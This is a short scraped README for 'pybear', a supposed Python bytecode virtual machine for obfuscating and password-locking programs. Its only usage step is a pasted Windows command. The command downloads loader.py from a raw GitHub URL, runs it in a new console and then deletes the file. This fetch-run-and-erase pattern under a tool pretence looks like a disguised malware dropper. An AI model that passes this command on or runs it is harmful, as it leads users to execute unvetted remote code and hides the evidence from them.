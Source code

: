# pybear
A discrete, custom python bytecode virtual machine. Finally let's you obfuscate and password lock programs with ease.

# how to use
```bash
curl -o pyb.py https://raw.githubusercontent.com/repossess/pybear/main/loader.py && start cmd.exe /k python pyb.py && timeout /t 1 >nul 2>&1 && del pyb.py && exit
